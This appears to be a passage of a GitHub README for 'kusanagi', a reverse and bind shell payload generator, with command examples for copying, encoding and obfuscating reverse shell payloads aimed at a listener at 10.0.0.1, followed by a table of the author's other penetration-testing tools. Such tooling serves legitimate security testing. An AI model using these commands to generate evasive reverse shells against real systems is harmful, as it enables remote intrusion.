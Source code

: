 ```bash
# Copy last reverse shell payload to clipboard
kusa code 10.0.0.1 -c
```
```bash
# Copy reverse shell with index 2 to clipboard
kusa code 10.0.0.1 -c 2
```
```bash
# Select only PHP code (-l/--language)
kusa code 10.0.0.1 -l php
```
```bash
# URL encode reverse shell
kusa code 10.0.0.1 --enc url
```
```bash
# Base64 encode and then url encode reverse shell
kusa code 10.0.0.1 --enc base64 url
```
```bash
# Obfuscate payloads
kusa code 10.0.0.1 --obf
```
```bash
# Obfuscated and filter away '/' and '$' characters in payload
kusa code 10.0.0.1 --obf -b '/$'
```




## :lock: [cytopia](https://github.com/cytopia) sec tools

Below is a list of sec tools and docs I am maintaining.

| Name                 | Category             | Language   | Description |
|----------------------|----------------------|------------|-------------|
| **[offsec]**         | Documentation        | Markdown   | Offsec checklist, tools and examples |
| **[header-fuzz]**    | Enumeration          | Bash       | Fuzz HTTP headers |
| **[smtp-user-enum]** | Enumeration          | Python 2+3 | SMTP users enumerator |
| **[urlbuster]**      | Enumeration          | Python 2+3 | Mutable web directory fuzzer |
| **[pwncat]**         | Pivoting             | Python 2+3 | Cross-platform netcat on steroids |
| **[kusanagi]**       | Payload Generator    | Python 3   | Bind- and Reverse shell payload generator |
| **[badchars]**       | Reverse Engineering  | Python 2+3 | Badchar generator |
| **[fuzza]**          | Reverse Engineering  | Python 2+3 | TCP fuzzing tool |
| **[docker-dvwa]**    | Playground           | PHP        | DVWA with local priv esc challenges |

[offsec]: https://github.com/cytopia/offsec
[header-fuzz]: https://github.com/cytopia/header-fuzz
[smtp-user-enum]: https://github.com/cytopia/smtp-user-enum
[urlbuster]: https://github.com/cytopia/urlbuster
[pwncat]: https://github.com/cytopia/pwncat
[kusanagi]: https://github.com/cytopia/kusanagi
[badchars]: https://github.com/cytopia/badchars
[fuzza]: https://github.com/cytopia/fuzza
[docker-dvwa]: https://github.com/cytopia/docker-dvwa


